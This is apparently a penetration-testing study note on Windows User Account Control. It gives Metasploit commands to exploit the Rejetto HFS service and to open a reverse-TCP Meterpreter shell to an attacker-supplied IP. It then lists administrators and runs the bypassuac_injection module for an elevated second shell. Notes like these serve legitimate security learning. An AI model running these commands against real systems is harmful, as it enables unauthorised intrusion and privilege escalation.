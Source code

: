 ## UAC
* USer Account Control --> Windows security feature introduced in Vista
* USed to prevent unauthorized changes from being made to the OS.
* It ensures that changes to the OS requires approval from the administrator.
* **How to exploit**
  * Utilize the "Windows Escalate UAC Protection Bypass (In-memory injection) module.
  * This module utilizes the trusted publisher certificate through process injection.
  * RESULT: It will spawn a second shell that has the UAC flag turned off.
 
* PRACTICAL
* Repeat steps till db_nmap
* `use exploit/windows/http/rejetto_hfs_exec`
* To bypass UAC, we have to set payload to the x64 (64-bit) architecture
* `set payload windows/x64/meterpreter/reverse_tcp`
* `set lhost [attacker's IP]`
* `run`
* ***
* NOTE: "admin" has lower privileges than that of "administrator"
* ***
* How to list the users added in Administrator's group
* Inside the meterpreter session --> `shell`
* `net users` OR `net localgroup administrators`
* If your meterpreter user is part of this group, then only it's possible to turn UAC off in the followinf steps.
* ***
* How to bypass UAC
* `use exploit/windows/local/bypassuac_injection`
* `set session [ID]`
* `set lport [some other port than what is used by meterpreter session already running]`
* `set target Windows\ x64`
* `set payload windows/x64/meterpreter/reverese_tcp`
* `run`
* Now as we have bypassed UAC, we can run the commands that require Administrator privileges.
